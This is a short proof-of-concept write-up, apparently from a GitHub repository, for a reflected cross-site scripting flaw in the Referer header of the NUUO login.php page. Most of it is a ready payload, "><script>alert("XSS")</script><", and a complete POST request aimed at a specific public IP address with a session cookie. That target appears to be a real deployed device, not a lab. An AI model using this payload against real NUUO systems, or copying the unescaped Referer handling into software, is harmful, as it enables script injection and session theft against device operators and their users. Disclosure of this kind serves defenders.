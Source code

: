 # NUUO Login page login.php XSS attack


## 漏洞位置
Referer

## payload 
```
"><script>alert("XSS")</script><"

```



![image](https://user-images.githubusercontent.com/72059221/173171676-271f80f5-2abb-46c6-b0a7-91a139360baa.png)


![image](https://user-images.githubusercontent.com/72059221/173171694-a047b8d8-fca8-4e9b-9d36-e63d27f45524.png)

## POC

```
POST /login.php HTTP/1.1
Host: 218.253.76.122:8000
Content-Length: 45
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://218.253.76.122:8000
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: "><script>alert("XSS")</script><"
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: lang=en; PHPSESSID=b630e0a3b454ae69c6aacbe257435b55
Connection: close

language=11111&user=111&pass=222&submit=Login
```

